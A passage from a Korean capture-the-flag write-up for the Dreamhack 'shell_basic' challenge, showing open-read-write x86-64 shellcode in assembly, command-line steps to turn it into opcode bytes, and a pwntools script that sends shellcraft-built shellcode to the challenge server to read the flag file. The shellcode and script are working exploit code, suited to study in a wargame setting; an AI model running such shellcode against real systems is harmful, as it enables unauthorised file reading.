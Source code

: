 ```

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x02
    syscall ; open call

    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30
    mov rdx, 0x30
    xor rax, rax
    syscall

    mov rdi, 0x1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall
```

2. 위 코드를 object 코드(Object 코드, ELF relocatable 기계어 코드)로 변환하기 위해 `nasm -f elf64 orw.asm` 명령어를 실행하면 `orw.o` 파일 생성
- 여기서 **nasm**은 어셈블리어 코드를 기계어 코드로 **어셈블** 해주는 명렁어이다. gcc -c 옵션으로 불가능한 이유는 gcc는 기본적으로 c언어 소스파일에 사용가능하기 때문에 어셈블리어 코드에는 사용 불가능

3. 생성한 orw.o 파일에서 opcode를 가져오기 위해 `objcopy —-dump-section .text=orw.bin orw.o`를 통해 `orw.bin` 파일을 생성 후 `xxd orw.bin` 명령어를 통해 hex 형식의 기계어 코드를 확인
- 여기서 **objcopy**는 Object 파일을 복사하고 조작하는데 사용하는 명령어이다.   
여기서 `--dump-section` 명령어를 뒤의 section 부분을 새로 생성한 파일에 copy하는 옵션이다. `objdump`를 사용하지 않는 이유는 object 파일은 ELF executable 파일이 아닌 ELF relocatable 파일이기 때문이다.

4. 여기서 opcode를 \x 형식으로 가져오기 위해 `xxd -p orw.bin | sed 's/\(..\)/\\x\1/g' | awk '{printf "%s", $0}'` 명령어 실행
- `xxd -p example.bin`: 이 명령은 이진 파일 example.bin의 내용을 일반 16진수 형식으로 덤프
- `sed 's/\(..\)/\\x\1/g'`: 이 sed 명령은 모든 두 문자 (바이트)를 캡처하고 캡처된 문자 뒤에 \x를 붙여 이를 대체함, 이를 통해 각 바이트를 \xHH 형식으로 변환
- `awk '{printf "%s", $0}'`: 이 awk 명령은 줄 바꿈을 추가하지 않고 출력을 출력함, 이를 통해 전체 16진수 배열이 한 줄로 출력

- `xxd -p orw.bin | sed 's/\(..\)/\\x\1/g | tr -d '\n'`도 가능

5. 이후 과정은 python 파일 작성 부분으로 풀이 방법 1과 동일

## 풀이방법 3. pwntools의 shellcraft를 사용
1.
```
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(r)
shellcode += shellcraft.read("rax", "rsp", 0x30)
shellcode += shellcraft.write(1, "rsp", 0x30)
shellcode = asm(shellcode)

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```
2.